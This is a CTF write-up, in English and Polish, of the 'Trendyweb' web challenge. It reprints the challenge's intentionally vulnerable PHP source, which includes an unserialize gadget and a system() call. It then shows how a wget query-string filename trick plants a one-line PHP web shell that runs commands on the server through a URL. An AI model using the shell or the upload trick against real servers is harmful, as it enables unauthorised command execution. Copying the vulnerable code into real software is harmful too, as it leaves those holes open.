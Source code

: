 ## Trendyweb (Web, 100p)

###ENG
[PL](#pl-version)

We get the source for index.php running on server:

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 'On');
ini_set('allow_url_fopen', 'On'); // yo!

$session_path = '';

	class MyClass { function __wakeup() { system($_GET['cmd']); // come onn!
	} }

	function onShutdown() {
		global $session_path;
		file_put_contents($session_path. '/pickle', serialize($_SESSION));
	}

	session_start();
	register_shutdown_function('onShutdown');

	function set_context($id) {
		global $_SESSION, $session_path;

		$session_path=getcwd() . '/data/'.$id;
		if(!is_dir($session_path)) mkdir($session_path);
		chdir($session_path);

		if(!is_file('pickle')) $_SESSION = array();
		else $_SESSION = unserialize(file_get_contents('pickle'));
	}

	function download_image($url) {
		$url = parse_url($origUrl=$url);
		if(isset($url['scheme']) && $url['scheme'] == 'http')
			if($url['path'] == '/avatar.png') {
				system('/usr/bin/wget '.escapeshellarg($origUrl));
			}
	}

	if(!isset($_SESSION['id'])) {
		$sessId = bin2hex(openssl_random_pseudo_bytes(10));
		$_SESSION['id'] = $sessId;
	} else {
		$sessId = $_SESSION['id'];
	}
	session_write_close();
	set_context($sessId);
	if(isset($_POST['image'])) download_image($_POST['image']);
?>

<img src="/data/<?php echo $sessId; ?>/avatar.png" width=80 height=80 />
```

And information that we need a shell to run a flag reader in `/`.

Intially we focused on the obvious unserialize vulnerability, but we could not figure out how to put our payload inside `pickle` file.
The only way seemed to be using the `download_image` function, but wget would not save the file under selected name.
While considering if this can be overriden we found out that wget behaves interestingly when the URL has some GET parameters.

Specifically downloading from URL `http://something.pwn/avatar.png?hacked.php` will actually create a file with name `avatar.png?hacked.php`.
At the same time the `parse_url` checks in `download_image` will pass since the GET parameters are not part of `$url['path']`.

Since the uploaded file had now .php extension the server was interpreting the script inside, so we simply put a PHP shell inside:

```php
<? system($_GET['cmd']) ?>
```

And with that we could simply run 

`http://chal.cykor.kr:8082/data/70c1e5e960e833a1183b/avatar.png%3fhacked.php?cmd=ls /`

to get the name of flag reading binary (`flag_is_heeeeeeeereeeeeee`) and then:

`http://chal.cykor.kr:8082/data/70c1e5e960e833a1183b/avatar.png%3fhacked.php?cmd=/flag_is_heeeeeeeereeeeeee`

to get the actual flag: `1-day is not trendy enough`

###PL version

Dostajemy źródło pliku index.php działającego na serwerze:

```php
<?php
error_reporting(E_ALL);
ini_set('display_errors', 'On');
ini_set('allow_url_fopen', 'On'); // yo!

$session_path = '';

	class MyClass { function __wakeup() { system($_GET['cmd']); // come onn!
	} }

	function onShutdown() {
		global $session_path;
		file_put_contents($session_path. '/pickle', serialize($_SESSION));
	}

	session_start();
	register_shutdown_function('onShutdown');

	function set_context($id) {
		global $_SESSION, $session_path;

		$session_path=getcwd() . '/data/'.$id;
		if(!is_dir($session_path)) mkdir($session_path);
		chdir($session_path);

		if(!is_file('pickle')) $_SESSION = array();
		else $_SESSION = unserialize(file_get_contents('pickle'));
	}

	function download_image($url) {
		$url = parse_url($origUrl=$url);
		if(isset($url['scheme']) && $url['scheme'] == 'http')
			if($url['path'] == '/avatar.png') {
				system('/usr/bin/wget '.escapeshellarg($origUrl));
			}
	}

	if(!isset($_SESSION['id'])) {
		$sessId = bin2hex(openssl_random_pseudo_bytes(10));
		$_SESSION['id'] = $sessId;
	} else {
		$sessId = $_SESSION['id'];
	}
	session_write_close();
	set_context($sessId);
	if(isset($_POST['image'])) download_image($_POST['image']);
?>

<img src="/data/<?php echo $sessId; ?>/avatar.png" width=80 height=80 />
```

Oraz informacje, że potrzebujemy shella aby uruchomic program do odczytania flagi znajdujący się w `/`.

Początkowo skupiliśmy się na ewidentnej podatności unserialize, ale nie mogliśmy dojść do tego, jak umieścić nasz payload w pliku `pickle`.
Jedyna sensowna droga sugerowała użycie funkcji `download_image`, ale nie wiedzieliśmy jak zmusić wgeta do zapisania pliku pod inną nazwą.
Podczas rozważania jak można zmienić nazwę wynikowego pliku zauważyliśmy, że wget ciekawe obsługuje URLe  z parametrami GET.

Konkretnie pobieranie z URLa `http://something.pwn/avatar.png?hacked.php` utworzy plik o nazwie `avatar.png?hacked.php`.
Jednocześnie wszystkie warunki w`parse_url` będą nadal spełnione bo parametry GET nie są częścią `$url['path']`.

Ponieważ tak uploadowany plik ma rozszerzenie .php serwer wykonuje skrypty w nim zawarte, więc umieściliśmy tam prosty PHP shell:

```php
<? system($_GET['cmd']) ?>
```

I w ten sposób mogliśmy uruchomić:

`http://chal.cykor.kr:8082/data/70c1e5e960e833a1183b/avatar.png%3fhacked.php?cmd=ls /`

aby pobrać nazwę programu do odczytywania flagi (`flag_is_heeeeeeeereeeeeee`) a następnie:

`http://chal.cykor.kr:8082/data/70c1e5e960e833a1183b/avatar.png%3fhacked.php?cmd=/flag_is_heeeeeeeereeeeeee`

aby odczytać flagę: `1-day is not trendy enough`
